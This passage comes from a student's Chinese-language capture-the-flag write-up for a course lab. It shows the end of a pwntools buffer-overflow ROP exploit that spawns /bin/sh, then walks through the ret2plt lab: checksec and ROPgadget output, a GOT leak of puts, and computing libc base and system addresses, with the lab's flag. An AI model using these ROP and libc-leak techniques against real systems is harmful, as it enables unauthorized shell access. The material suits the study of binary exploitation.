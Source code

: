 ```python
    pop_rdi_ret, string_bin_sh,
    pop_rsi_ret, 0,
    pop_rdx_pop_rbx_ret, 0, 0,
    syscall
)

r.recvline()
r.recvuntil(b'> ')
raw_input()
r.sendline(b'a' * 24 + rop_chain)


r.interactive()
```

## Lab-ret2plt
Flag: `flag{__libc_csu_init_1s_P0w3RFu1l!!}`

### 解題流程與思路
1. checksec + file + ROPgadget
    ```bash
    $ checksec chal
    [*] '/mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_ret2plt/share/chal'
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    $ file chal
    chal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7ed984819a3908eff455bfcf87716d0fb298fac, for GNU/Linux 3.2.0, not stripped
    $ ROPgadget --binary chal
    ...
    0x0000000000401263 : pop rdi ; ret
    ...
    ```
    首先知道這隻binary是動態link library，所以可想而知，rop gadget一定少的可憐，所以我們不太能夠直接像上一題一樣暴力開一個shell出來，程式也沒有幫我們開，讓我們可以直接跳過去，但是透過ROPgadget的結果，雖然東西非常少，**但還是有`pop rdi ; ret`可以用**
2. 還是有很明顯的BOF的漏洞，此時就可以嘗試類似got hijack的方式打看看
流程:
1. 首先我們要知道libc base address才能夠利用扣掉offset的方式跳到system的地方，但是程式中並沒有能夠直接leak base address給我們的東西，因此我們可以自己想辦法leak: ==ret2plt==
    ```
    pop rdi ret
    puts got address
    puts plt
    ```
    這三行的意思是把puts的got address，透過puts印出來給我們 -> puts(put自己的got address)
2. 有了puts的got address之後，就可以扣掉puts在libc的offset，就可以知道base address，然後我們可以知道system的確切address
    ```python
    # leak puts got address to calculate libc base address
    puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
    libc_base = puts_addr - libc.symbols['puts']
    libc.address = libc_base
    system_addr = libc.symbols['system']
    ```
3. 現在的問題有兩個，一個是我們要怎麼把==/bin/sh==送進去，因為如果直接看binary的gadget沒有`/bin/sh`或是`/sh`的string，不過我們可以直接用同樣的方法，把字串送進去
    ```python